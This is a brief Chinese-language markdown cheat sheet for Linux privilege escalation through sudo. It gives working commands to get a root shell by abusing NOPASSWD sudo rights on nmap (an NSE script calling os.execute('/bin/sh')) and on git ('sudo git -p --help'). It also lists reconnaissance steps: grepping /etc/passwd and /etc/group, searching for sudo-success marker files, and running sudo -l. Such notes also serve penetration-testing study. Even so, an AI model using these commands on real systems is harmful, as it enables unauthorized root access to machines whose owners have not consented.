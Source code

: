 # sudo提权
## nmap
如果发现`(root)NOPASSWD:/usr/bin/nmap`则nmap不需要密码便可以用root权限执行,开始提权

    echo 'os.execute("/bin/sh")' > getShell.nse
    sudo -u root nmap --script=getShell.nse

## git
    sudo git -p --help

# 1. 信息搜集
1. 首先找到登录用户
```
cat /etc/passwd|grep sh
```
2. 通过/etc/group文件查看sudo组成员，也可以直接`id 用户名`查看是否是sudo组成员
```
cat /etc/group|grep sudo
```
3. 通过查看家目录隐藏文件，寻找。sudo_as_admin_seccessful文件，证实sudo成功使用
```
这里我们可以直接搜索这个文件，然后看是在哪个家目录下面即可
find / -name .sudo_as_admin_seccessful
或者一个个进入sudo组的用户家目录下面进行
ls -al
```
4. 在某些时刻被设置为NOPASSWD，可以sudo -l
```
(root)NOPASSWD:/usr/bin/nmap
```